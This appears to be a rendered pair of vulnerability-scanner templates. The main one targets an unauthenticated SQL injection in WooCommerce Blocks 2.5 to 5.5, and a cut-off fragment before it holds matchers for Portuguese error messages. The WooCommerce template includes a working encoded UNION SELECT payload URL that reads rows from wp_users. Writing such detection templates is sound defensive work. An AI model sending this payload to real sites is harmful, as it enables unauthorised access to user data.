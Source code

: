 ### Matchers

**Type - dsl**
- dsl
    1. contains(body_3, "Os parametros não estão informados corretamente")
    2. contains(body_3, "O CNPJ dos parametro não está informado corretamente")
- condition - or

**Type - dsl**
- dsl
    1. status_code_2 == 500 && status_code_3 == 200

---
# WooCommerce Blocks 2.5 to 5.5 - Unauthenticated SQL Injection
## Description
- woocommerce-gutenberg-products-block is a feature plugin for WooCommerce Gutenberg Blocks. An SQL injection vulnerability impacts all WooCommerce sites running the WooCommerce Blocks feature plugin between version 2.5.0 and prior to version 2.5.16. Via a carefully crafted URL, an exploit can be executed against the `wc/store/products/collection-data?calculate_attribute_counts[][taxonomy]` endpoint that allows the execution of a read only sql query. There are patches for many versions of this package, starting with version 2.5.16. There are no known workarounds aside from upgrading.

- severity - high
- tags - cve,cve2021,wordpress,woocommerce,sqli,wp-plugin,wp,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/?rest_route=/wc/store/products/collection-data&calculate_attribute_counts[0][query_type]=or&calculate_attribute_counts[0][taxonomy]=%252522%252529%252520union%252520all%252520select%2525201%25252Cconcat%252528id%25252C0x3a%25252c%252522sqli-test%252522%252529from%252520wp_users%252520where%252520%252549%252544%252520%252549%25254E%252520%2525281%252529%25253B%252500
### Matchers

**Type - word**
- words
    1. sqli-test
    2. attribute_counts
    3. price_range
    4. term
- condition - and

**Type - word**
- part - header
- words
    1. application/json

**Type - status**
- status
    1. 200

---